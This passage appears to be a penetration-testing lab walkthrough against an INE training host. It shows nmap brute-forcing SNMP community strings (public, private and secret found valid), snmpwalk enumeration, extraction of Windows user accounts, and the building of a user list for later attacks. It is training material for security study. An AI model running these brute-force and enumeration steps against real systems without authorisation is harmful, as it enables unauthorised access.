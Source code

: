 `tree /usr/share/seclists | grep "community"`:
```
│	│	├── common-snmp-community-strings-onesixtyone.txt
│	│	├── common-snmp-community-strings.txt
```

`locate common-snmp-community-strings.txt`:
```
/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt ←
```

`nmap -sU demo.ine.local -p161 --script snmp-brute --script-args snmp-brute.communitiesdb="/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt"`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 17:09 IST
Nmap scan report for demo.ine.local (10.4.24.192)
Host is up (0.0092s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|   public - Valid credentials ←
|   private - Valid credentials ←
|_  secret - Valid credentials ←

Nmap done: 1 IP address (1 host up) scanned in 5.83 seconds
```

**Step 4**.

`snmpwalk -v 1 -c secret demo.ine.local`.

We were able to gather a lot of information via SNMP. But, this isn't in a proper readable format. We need to take the help of other tools (i.e. nmap SNMP scripts) for specific information.

**Step 5**.

`nmap -sU demo.ine.local -p161 --script snmp-win32-users`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 17:31 IST
Nmap scan report for demo.ine.local (10.4.26.58)
Host is up (0.0088s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-win32-users: 
|   Administrator ←
|   DefaultAccount
|   Guest
|   WDAGUtilityAccount
|_  admin ←

Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds
```

`nano /root/Desktop/users.txt`:
```
administrator
admin
```
